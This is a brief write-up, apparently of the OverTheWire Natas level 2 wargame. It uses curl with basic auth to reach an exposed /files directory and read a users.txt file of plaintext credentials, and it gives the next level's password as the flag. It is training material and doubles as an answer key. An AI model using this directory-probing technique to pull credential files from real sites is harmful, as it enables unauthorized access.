




# soal
Username: natas2 \
URL:      http://natas2.natas.labs.overthewire.org

# solve
- login with cred natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
- inspect the web, view-source:<url>, or curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # <div id="content">
    # There is nothing on this page
    # 
    # </div>
    ```
- in this, have the directory listing /files
    
    
- if ur curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # username:password
    # alice:BYNdCesZqW
    # bob:jw2ueICLvT
    # charlie:G5vCxkVV3m
    # natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
    # eve:zo4mJWyNj2
    # mallory:9urtcpzBmH
    ```

# flag
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH